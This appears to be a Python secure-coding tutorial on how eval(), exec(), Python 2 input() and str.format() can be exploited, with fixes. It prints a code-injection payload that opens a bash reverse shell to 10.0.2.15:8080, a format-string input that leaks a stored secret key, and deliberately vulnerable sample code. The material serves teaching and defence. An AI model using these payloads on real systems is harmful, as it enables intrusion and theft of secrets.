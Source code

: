 ### Introduction 
It is possible to create a secure program using a language that is full of vulnerabilities, and also it is possible to create a vulnerable program using a language designed to be secure.

Python has become immensely useful in Cyber Security as it supports and performs a multitude of Cyber Security functions such as malware analysis, scanning, and penetration testing functions. However, it might be very easy to make a mistake in any Python code and make the program vulnerable.

In this tutorial, I will help you avoid those mistakes.

![We are in GIF](https://media.giphy.com/media/3oKIPcqmx1mpCOJJp6/giphy.gif)

### Dangerous functions
Some functions can be dangerous by performing a sort of code injection and an authentication bypass. Let's be in the hacker's shoes, think like him, and learn how to protect our code.

#### Eval()
Python’s `eval()` gives you the ability to pass a string to execute it as a code. For example, `eval("2 ** 8")` will return `256`.
Let's make a simple python app:
```python
def addition(x, y):
  return eval("%s + %s" % (x, y))

result = addition(2, 4)
print(result)
```

This is a very simple calculator, which gives you the sum of two numbers. If you execute the code, then you will have `6` as a result.

Now let's turn this calculator to an application that uses JSON to pass user input:
```python
def addition(x, y):
  return eval("%s + %s" % (x, y))

result = addition(request.json['x'], request.json['y'])
print("Our result is %d." % result)
```

If we pass `{"x":"2", "y":"4"}` as our previous code, then the result will be `6` of course. But as we are thinking as a hacker, then let's try to provide something else:
```python
{"x":"__import__('os').system('bash -i >& /dev/tcp/10.0.2.15/8080 0>&1')#", "y":"4"}
```

This malicious code will force our calculator to call `os.system` then spawn a [reverse shell](https://www.sans.edu/student-files/presentations/LVReverseShell.pdf) to the IP "10.0.2.15" on PORT "8080".

#### Exec()
This function is similar to `eval()` which executes a string or a code object:
```python
code = 'x = 2\ny=4\nprint("result =", x+y)'
exec(code)
```

The output will be `6`. And you can exploit it in the same way as we did before.

Now if you want to use those functions, you have to check which methods and variables the user is allowed to use by:
```python
exec('print(dir())')
```

The output is:
```
['In', 'Out', '_', '__', '___', '__builtin__', '__builtins__', '__doc__', '__loader__', '__name__', '__package__', '__spec__', '_dh', '_i', '_i1', '_i2', '_i3', '_i4', '_i5', '_i6', '_i7', '_i8', '_ih', '_ii', '_iii', '_oh', 'addition', 'exit', 'get_ipython', 'quit', 'result']
```

A lot of those variables and methods may not be necessary for your code. Therefore, you can restrict it for users bypassing optional `locals` and `globals` parameters to the method.
For example:
```python
from math import *
exec('print(dir())')
```

Then the output will be:
```
['In', 'Out', '_', '__', '___', '__builtin__', '__builtins__', '__doc__', '__loader__', '__name__', '__package__', '__spec__', '_dh', '_i', '_i1', '_i10', '_i11', '_i2', '_i3', '_i4', '_i5', '_i6', '_i7', '_i8', '_i9', '_ih', '_ii', '_iii', '_oh', 'acos', 'acosh', 'addition', 'asin', 'asinh', 'atan', 'atan2', 'atanh', 'ceil', 'copysign', 'cos', 'cosh', 'degrees', 'e', 'erf', 'erfc', 'exit', 'exp', 'expm1', 'fabs', 'factorial', 'floor', 'fmod', 'frexp', 'fsum', 'gamma', 'gcd', 'get_ipython', 'hypot', 'inf', 'isclose', 'isfinite', 'isinf', 'isnan', 'ldexp', 'lgamma', 'log', 'log10', 'log1p', 'log2', 'math', 'modf', 'nan', 'pi', 'pow', 'quit', 'radians', 'remainder', 'result', 'sin', 'sinh', 'sqrt', 'tan', 'tanh', 'tau', 'trunc']
```

If we pass an empty dictionary as globals, then only the __builtins__ will be available to the object. That means if you try to access any of the functions which are available by the math module, then it will raise an exception:
```python
from math import *
exec('print(dir())', {})
```

The output is:
```python
['__builtins__']
```

If you want to provide a specific method along with the __builtins__ then you need to do the following:
```python
from math import *
exec('print(dir())', {'squareroot': sqrt})

exec('print(squareroot(16))', {'squareroot': sqrt})
```

This will give the user the ability to execute the `sqrt` method by using `squareroot()`. However, if he tries to use `sqrt()` then it will raise an exception.

The output here is:
```python
['__builtins__', 'squareRoot']
4.0
```

#### Input()
You can find this vulnerability only in [Python 2](https://www.python.org/downloads/release/python-272/), not in [Python 3](https://www.python.org/downloads/).

This function in Python 2 takes the value type, as it is without changing its type. 
```python
secret = 5
number = input("Guess the secret number")
if number==secret:
    print("YES")
else:
    print("NO")
```

Now we have a secret number, and we want the user to guess it. If we pass `5` then the result will be `YES` and otherwise it will be `NO`, but if we pass `secret` then the result will be `YES` because the Python conditional now is:
```python
if secret==secret: // This will be true
```

And just like that, you can pass any password leading to authentication bypass. Also, there are a lot of other ways to exploit this function.

To fix this issue, you just need to use `raw_input()` instead of `input()` while you are using Python 2 because it is converting any input to a string. If you are using Python 3 then don't worry about it while it is doing just the same as `raw_input()`.

### String formatting exploiting
This can be a very dangerous method because it leads the hackers to authentication bypass and to get access to sensitive information. So how does this really work?

Let's build a simple app, assume that *CONFIG* contain sensitive information like an *API key*:
```python
CONFIG = {
    "KEY" : "SECRET_KEY"
}
class info:
    def __init__(self, first, last):
        self.first = first
        self.last = last

def getName(some_str, peopleinfo_obj):
    return some_str.format(peopleinfo_obj = peopleinfo_obj)

people = info('Ahmad', 'Mardeni')

stri = input()
getName(stri, peopleinfo_obj = people)
```

Now if the user passes the following as input:
```python
Name_is_{peopleinfo_obj.first}_{peopleinfo_obj.last}
```

Then the output will be:
```python
'Name_is_Ahmad_Mardeni'
```

But if he passes the following as input:
```python
{peopleinfo_obj.__init__.__globals__[CONFIG][KEY]}
```

Then our sensitive information will be compromised and the output will be:
```python
'SECRET_KEY'
```

That happened because the string formatting function has the ability to access attributes objects. And the question now, is it still good to use `str.format()`? Yes, but you have to be aware that it becomes vulnerable when it is used over user-controlled strings.

### Conclusion 
We learned about the dangerous functions `eval()`, `exec()`, and `input()`, how hackers can use them to hack your Python code, and finally, how to protect yourself against them. But anyway, you have to pay attention to vulnerabilities besides the language-specific ones, like [XSS](https://owasp.org/www-community/attacks/xss/), [SQL injection](https://www.w3schools.com/sql/sql_injection.asp), etc...

Till next time, happy coding Pythonistas!

![Cat coding GIF](https://media.giphy.com/media/LmNwrBhejkK9EFP504/giphy.gif)

### Further reading
1. [Exploiting Python pickles](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)
2. [YAML Deserialization Attack in Python](https://www.exploit-db.com/docs/english/47655-yaml-deserialization-attack-in-python.pdf?utm_source=dlvr.it&utm_medium=twitter)
